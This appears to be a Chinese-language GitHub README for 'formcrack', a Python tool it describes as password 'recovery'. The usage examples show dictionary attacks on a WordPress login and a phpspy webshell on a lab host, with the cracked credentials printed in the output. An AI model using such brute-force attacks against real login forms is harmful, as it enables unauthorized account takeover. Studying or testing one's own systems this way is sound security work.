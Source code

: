 # formcrack

一个简单的 web 表单密码找回工具, 自动识别用户名与密码字段, 可以对 webshell 与网站进行密码找回 : )

## 开发与运行环境

* python 2.7.10
* requests
* BeautifulSoup4

## 如何安装与运行

### 安装

```bash
$ pip install requests BeautifulSoup4

```

### 运行

```bash
$ python fromcrack.py

usage: fromcrack.py [-h] -s URL [-a ACTION] [-t TIME] [-v] [-u U] [-U U]
                    [-p P] [-P P]

fromcrack.py: error: argument -s is required
```

## 命令行参数说明

1. -s
> 登陆地址, 如: http://目标/admin/login.php

1. -a
> 表单提交的 action 地址, 指定表单提交地址.

1. -t
> 延时请求, 单位(秒).

1. -v
> 显示详细找回账号过程信息.

1. -u
> (小写的u)指定一个用户名

1. -U
> (大写的U)指定一个用户名列表文件

1. -p
> (小写的p)指定一个密码

1. -P
> (大写的P)指定一个密码列表文件

## 命令行参数演示

找回 wrodpress 账号与密码, 并且每次延时两秒

```bash
$ python fromcrack.py -s http://172.16.213.179/wp-login.php -p admin123 -v -t 2
target: [http://172.16.213.179/wp-login.php], user count: [10], password count: [1] ...
[*] Test error data: [log=gkhrj&pwd=ubvasefy&rememberme=forever&wp-submit=%E7%99%BB%E5%BD%95&redirect_to=http%3A%2F%2F172.16.213.179%2Fwp-admin%2F&testcookie=1]
[*] send crack data package: log=admin&pwd=admin123&rememberme=forever&wp-submit=%E7%99%BB%E5%BD%95&redirect_to=http%3A%2F%2F172.16.213.179%2Fwp-admin%2F&testcookie=1
[+] == successful, user: [admin], password: [admin123] ==
```

找回 webshell 密码

```bash
python fromcrack.py -s http://172.16.213.179/phpspy.php -P ./dict/webshell.txt -v
target: [http://172.16.213.179/phpspy.php], user count: [10], password count: [1544] ...
[*] Test error data: [spiderpass=xoykuplw&submit=%B7%A8%BF%CD%D0%A1%D7%E9%D1%A7%CF%B0%BD%BB%C1%F7%D7%A8%D3%C3]
[*] send crack data package: spiderpass=pass&submit=%B7%A8%BF%CD%D0%A1%D7%E9%D1%A7%CF%B0%BD%BB%C1%F7%D7%A8%D3%C3
[*] send crack data package: spiderpass=598971996&submit=%B7%A8%BF%CD%D0%A1%D7%E9%D1%A7%CF%B0%BD%BB%C1%F7%D7%A8%D3%C3
[*] send crack data package: spiderpass=adminyouge&submit=%B7%A8%BF%CD%D0%A1%D7%E9%D1%A7%CF%B0%BD%BB%C1%F7%D7%A8%D3%C3
[*] send crack data package: spiderpass=sbadmin&submit=%B7%A8%BF%CD%D0%A1%D7%E9%D1%A7%CF%B0%BD%BB%C1%F7%D7%A8%D3%C3
[*] send crack data package: spiderpass=mkak5cpa&submit=%B7%A8%BF%CD%D0%A1%D7%E9%D1%A7%CF%B0%BD%BB%C1%F7%D7%A8%D3%C3
[*] send crack data package: spiderpass=040627&submit=%B7%A8%BF%CD%D0%A1%D7%E9%D1%A7%CF%B0%BD%BB%C1%F7%D7%A8%D3%C3
[*] send crack data package: spiderpass=123&submit=%B7%A8%BF%CD%D0%A1%D7%E9%D1%A7%CF%B0%BD%BB%C1%F7%D7%A8%D3%C3
[*] send crack data package: spiderpass=xx&submit=%B7%A8%BF%CD%D0%A1%D7%E9%D1%A7%CF%B0%BD%BB%C1%F7%D7%A8%D3%C3
[*] send crack data package: spiderpass=987987&submit=%B7%A8%BF%CD%D0%A1%D7%E9%D1%A7%CF%B0%BD%BB%C1%F7%D7%A8%D3%C3
[*] send crack data package: spiderpass=adminasb&submit=%B7%A8%BF%CD%D0%A1%D7%E9%D1%A7%CF%B0%BD%BB%C1%F7%D7%A8%D3%C3
[*] send crack data package: spiderpass=admin&submit=%B7%A8%BF%CD%D0%A1%D7%E9%D1%A7%CF%B0%BD%BB%C1%F7%D7%A8%D3%C3
[+] == successful, password: [admin] ==
```

## 待开发完善功能

* 验证码提醒与跳过
